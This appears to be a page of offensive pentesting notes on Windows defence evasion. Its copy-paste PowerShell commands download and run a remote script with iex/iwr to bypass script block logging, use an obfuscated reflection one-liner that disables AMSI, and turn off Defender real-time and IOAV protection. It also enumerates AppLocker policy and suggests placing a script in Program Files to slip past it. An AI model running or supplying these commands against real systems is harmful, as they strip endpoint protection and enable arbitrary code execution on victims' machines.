 # Evasion

### Bypass AMSI

First bypass the Enhanced Script Block Logging

```powershell
iex (iwr http://172.16.99.115/sbloggingbypass.txt -UseBasicParsing)
```

To bypass the AMSI

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
{% endcode %}

### Disable AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVprotection $true -Verbose
```

###

### Constrained Language

<figure><img src="../../.gitbook/assets/Pasted image 20231220160920.png" alt=""><figcaption></figcaption></figure>

Cannot create type. Only core types are supported in this language mode.

To check if you're running in constrained language mode on local

```
reg query 
HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

on remote

```
reg query 
HKLM\Software\Policies\Microsoft\Windows\SRPV2 -ComputerName <MACHINE NAME>
```

<figure><img src="../../.gitbook/assets/Pasted image 20231220161133 (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections -ComputerName <MACHINE NAME>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231220161307.png" alt=""><figcaption></figcaption></figure>

It say that we can run program inside C:\Program Files folder, so download the script inside it and run it
